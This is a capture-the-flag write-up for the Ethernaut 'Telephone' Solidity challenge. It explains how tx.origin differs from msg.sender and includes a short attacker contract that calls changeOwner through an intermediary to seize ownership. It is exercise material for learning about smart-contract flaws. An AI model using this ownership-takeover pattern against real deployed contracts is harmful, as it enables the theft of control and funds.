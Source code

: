 # Telephone
```javascript
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

This challenge point out the different between `tx.origin` & `msg.sender`.

From Solidity document:

* **tx.origin** (address payable): 
    sender of the transaction (full call chain)

* **msg.sender** (address payable): 
    sender of the message (current call)
    
Therefore, we get a very obvious plan that we deploy a contract which will call target contract instance's `changeOwner()` function.

Then we use ourself(EOA) to call the contract we deployed. 

Contract example like following:
```javascript
pragma solidity ^0.4.18;
 
contract Telephone {
  function changeOwner(address _owner) public;
}
contract TeleHacker {    
 
    function hack(address param) public{ /*param Is Your Zepplin Main Contract Address*/
      Telephone target = Telephone(param);
        target.changeOwner(msg.sender);
    }
}

```
![](https://i.imgur.com/0MpTuEj.png)

Deploy contract on [Remix IDE](https://remix.ethereum.org/).

Done.
